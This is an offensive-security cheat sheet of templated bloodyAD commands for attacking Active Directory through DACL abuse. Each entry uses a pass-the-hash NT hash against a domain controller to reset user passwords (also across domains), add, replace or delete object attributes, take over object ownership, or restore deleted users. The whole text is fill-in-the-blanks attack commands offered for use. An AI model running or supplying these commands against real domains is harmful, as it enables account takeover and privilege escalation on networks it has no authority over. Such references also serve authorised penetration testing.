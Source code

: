 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE


## set - reset password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set cross-domain - reset user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <target_dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set - object attribute delete  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute>
```

## set - object attribute add/replace  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute> -v <value>
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  owner <target> <owner>
```

## set - restore tombstone users (pth)
https://cravaterouge.com/articles/ad-bin/
```bash
bloodyAD --host <dc_fqdn> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set restore '<sid>'
```

